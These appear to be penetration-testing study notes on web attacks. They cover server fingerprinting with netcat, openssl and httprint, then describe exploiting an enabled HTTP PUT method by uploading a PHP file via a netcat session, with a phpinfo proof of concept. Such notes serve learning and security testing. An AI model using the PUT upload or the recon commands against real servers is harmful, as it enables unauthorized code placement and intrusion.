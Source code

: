 # Web Attacks

## Fingerprinting with Netcat

Netcat can be used to fingerprint the web server, it acts as both client and server.

```
nc <target> 80
HEAD / HTTP/1.0
```
Limitation with Netcat is that it cannot connect to HTTPS connections, So to connect to the HTTPS connection we can use **_OpenSSL_** command line tool.

## Fingerprinting with OpenSSL

```
openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

# Fingerprinting with Httprint

**_Httprint_** is a web server fingerprinting tool that uses a signature-based technique to identify web servers.

```
httprint -P0 -h <target hosts> -s <signature file>
```


* -P0 : Do not ping.
* -h  : Target hosts.
* -s  : set signature file to use.
* signature file location : ```/usr/share/httprint/signature.txt```

## HTTP Verbs

The most common HTTP methods are:

* GET   : used to request resources from web server
* POST  : used to submit form data to web server
* HEAD  : only asks for headers of the response, excludes body
* DELETE: used to remove a file/data from the server
* PUT   : used to **upload** file to the server
    
    To exploit the **PUT** method attacker needs to know the exact file uploading to the server. This can be done by using **_wc_** (word count) utility with **_-m_** parameter in linux.
    
    ```wc -m payload.php```
    
    After creating the payload and determining its size, use the following command to upload the payload to the server.
    
    ```
    nc target.com 80
    PUT /payload.php HTTP/1.0
    Content-type  : text/html
    Content-length  : 20
    
    <?php phpinfo(); ?>
    ```
